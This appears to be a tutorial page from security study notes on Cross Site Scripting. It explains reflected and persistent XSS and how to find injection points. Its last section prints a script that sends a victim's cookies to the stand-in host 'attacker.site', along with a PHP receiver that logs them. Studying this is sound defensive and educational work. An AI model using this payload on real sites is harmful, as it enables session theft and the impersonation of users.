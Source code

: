 # Cross Site Scripting

Cross Site Scripting (XSS) is a vulnerability that lets an attacker control some of the content of a web application

By exploiting a XSS, the attacker can target the web app users

An attacker can:

* Modify the content of the site at run-time
* Inject malicious contents
* Steal the cookies, thus the session, of a user
* Perform actions on the web app as if it was a legitimate user
* And much more

XSS vulnerabilities happen when a web app uses unfiltered user input to build the output content displayed to its users

This lets an attacker control the output HTML and JS code, thus attacking the app users

User input is any parameter coming from the client side of the web app such as:

* Request headers
* Cookies
* Form inputs
* POST parameters
* GET parameters

Such inputs should be validated server side by well-implemented security functions that should sanitize or filter users' input

{% hint style="danger" %}
Never, ever, trust user input!
{% endhint %}

Most of the time, victims of XSS attacks are the users/visitors of a site (could even be an admin)

XSS involves injecting malicious code into the output of a web page, which is then rendered (or executed) by the browser of the visiting users

It can be really hard to notice an attack in progress because most of the time, attacks are very subtle and do not involve any visible change to the vulnerable site

Attackers user XSS to attack the users of a website by:

* Making their browsers load malicious content
* Performing operations on their behalf, like buying a product or changing a password
* Stealing their session cookies, thus being able to impersonate them on the site

## Finding an XSS

You have to look at every user input, and test if it is somehow displayed on the output of the web application

![A search parameter is submitted through a form and gets displayed on the output (Reflection point). Searched string is passed through a GET parameter](<../../../../.gitbook/assets/image (6) (1).png>)

After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page; this lets you control the output page

Looking at the HTML sources of the output page helps to understand how to build an XSS payload

![](<../../../../.gitbook/assets/image (4) (1).png>)

![The injected \<i> tag outputted "test string" in italics so the HTML has been interpreted](<../../../../.gitbook/assets/image (14) (1) (1).png>)

To test the XSS, you can inject some valid HTML/JS code like:

```javascript
<script>alert('XSS')</script>
```

Although according to this video, we should be mindful when doing that

{% embed url="https://www.youtube.com/watch?t=73s&v=KHwVjzWei1c" %}

To exploit an XSS vulnerability, you need to know the type of XSS attack you are carrying out: reflected, persistent or DOM based

## Reflected XSS Attacks

Happen when the malicious payload is carried **inside the request** that the browser of the victim sends to the vulnerable website

Triggered by posting a link on a social network or via a phishing campaign. When users click on the link, they trigger the attack

Some browsers like Chrome have a reflected XSS filter built in so they will not run some XSS reflected attacks

![](<../../../../.gitbook/assets/image (18) (1) (1).png>)

However, they can only filter trivial and known XSS attacks since there are advanced methods that can bypass anti-XSS filters

## Persistent XSS Attacks

Cannot be blocked by Anti-XSS filters

Occur when the payload is sent to the vulnerable web server and then **stored**.&#x20;

* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload.

Malicious code gets delivered each and every time a web browser hits the "injected" web page.

The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users

* Elements like comments, user profiles, and form posts are a potential vector for attacks

Example: If an attacker manages to inject a malicious script in a forum post, every person opening that post will run the script; this, for example, could let an attack silently steal visitors' cookies and impersonate them without even knowing their login credentials



## Cookie Stealing via XSS

JS can access cookies if they do not have the HttpOnly flag enabled

In many cases, stealing a cookie means stealing a user session

For example, you can display the current cookies using:

```javascript
<script>alert(document.cookie)</script>
```

![](<../../../../.gitbook/assets/image (5) (1) (1).png>)

This code sends cookie content to an attacker-controlled site

```javascript
<script>
var i = new Image();
i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

The script generates an image object and prints its `src` to a script on the attacker's server

The browser cannot tell in advance if the source is a real image, so it loads and executes the script, even without displaying any image which means the cookie is actually sent to the attacker.site

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

The `log.php` script saves the cookie in a text file on the attacker.site
